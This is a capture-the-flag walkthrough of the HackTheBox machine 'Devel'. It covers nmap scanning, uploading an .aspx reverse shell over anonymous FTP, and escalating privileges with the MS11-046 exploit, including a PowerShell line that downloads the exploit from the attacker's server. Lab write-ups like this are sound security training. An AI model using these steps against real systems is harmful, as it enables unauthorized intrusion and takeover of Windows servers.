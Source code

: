 # Devel

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/f386dc63-4e14-4568-afd6-faa1720e7732" load="lazy"></img>



  Welcome back, here we have a very old HacktheBox easy machine, that for this reason is really simple, but let’s start as usual, by running `nmap`

  ```plaintext
  ┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Devel]
  └─$ sudo nmap -sS -sC -sV --script=vuln -oN scans/nmap.txt 10.10.10.5
  [sudo] password for kali: 
  Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 14:50 EDT
  Nmap scan report for 10.10.10.5
  Host is up (0.056s latency).
  Not shown: 998 filtered tcp ports (no-response)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     Microsoft ftpd
  80/tcp open  http    Microsoft IIS httpd 7.5
  |_http-server-header: Microsoft-IIS/7.5
  | vulners: 
  |   cpe:/a:microsoft:internet_information_services:7.5: 
  |       CVE-2010-3972   10.0    https://vulners.com/cve/CVE-2010-3972
  |       SSV:20122       9.3     https://vulners.com/seebug/SSV:20122    *EXPLOIT*
  |       CVE-2010-2730   9.3     https://vulners.com/cve/CVE-2010-2730
  |       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
  |_      CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
  |_http-dombased-xss: Couldn't find any DOM based XSS.
  |_http-csrf: Couldn't find any CSRF vulnerabilities.
  |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 253.22 seconds
  ```
  
  As always we have a website that we can visit
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3d4b9792-8015-4ca5-9c13-6d2f344fbfb3" load="lazy" ></img>
  
  This is the tipical page of Windows IIS, where we have nothing to do, but from nmap we can see that there is the ftp port, and maybe we can login via anonymous
  
  
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b0f2e002-12d3-410b-9658-b1274483d886" load="lazy"></img>
  
  
  And we are in! By listing the files we can see that there are all the pages that are visitable from the site, like the `welcome.png` one.
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/78de96a2-01ef-4521-af83-ca2d1b8dcde2" load="lazy" ></img>

  
  We can now try to upload custom files like a revshell in php or py.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/53edac12-de11-4a8c-b3cd-ddee6c0d2605" load="lazy" ></img>

  
  As you can see neither of them seems not to be readable from the website page, so we can think of an executable extension allowed, and because we are in an `aspnet_client`, maybe we can use the `.aspx` extension.

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/70801370-8c8c-4c11-acf3-639794f6960e" load="lazy" ></img>
 
  
  It works so now we can upload an `.aspx` reverseshell found [online](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).
  Now we just need to upload it and visit the page while listening at that port
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6afc1ae2-b706-44ae-81ae-397738e04e64" load="lazy"></img>
  
  ## Privilege Escalation
  
  In this machine we won’t be able to read the user flag until we will get to admin, because we are not allowd to visit the user page, but by looking at the system informations we can get some interesting infos
  
 
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b466cd52-7d35-4242-bbdf-0b08ec794eb8" load="lazy"></img>

  
  As you can see we have a pretty old windows version without any Hot-Fix, and by looking for it online we found an interesting page 

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/42ac3ed2-d3e5-43c5-a6f7-70a6f0153e8a" load="lazy"></img>

  
  
  We have even the `EDB-ID` that we can use to fetch the exploit from searchsploit
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/0c8e9333-9965-4c43-882a-0217713822c3" load="lazy"></img>

  
  Now we need to compile the code in the given way of the `CVE`
  

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a743e510-f373-40aa-9bf3-0302fcf077ec" load="lazy"></img>
  
  
  
  So just compile and trasfer it via python server 
  
  ```c
  powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.204:8000/MS11-046.exe', 'C:\Windows\Temp\MS11-046.exe')"
  ```
  
  And here is the exploit execution

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/a4eb57ba-388f-4303-a7af-a4f8238df9f6" load="lazy"></img>

  
  
  Now we are system and like this we can fetch all the flags
  
  ```plaintext
  c:\>type \Users\babis\Desktop\user.txt
  type \Users\babis\Desktop\user.txt
  aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX6
  
  c:\>type \Users\administrator\Desktop\root.txt
  type \Users\administrator\Desktop\root.txt
  6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5
  ```
  Just like this we solved the machine

  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/9adc4f54-8bd3-41dd-bde1-311c173dde88" load="lazy"></img>

</div>
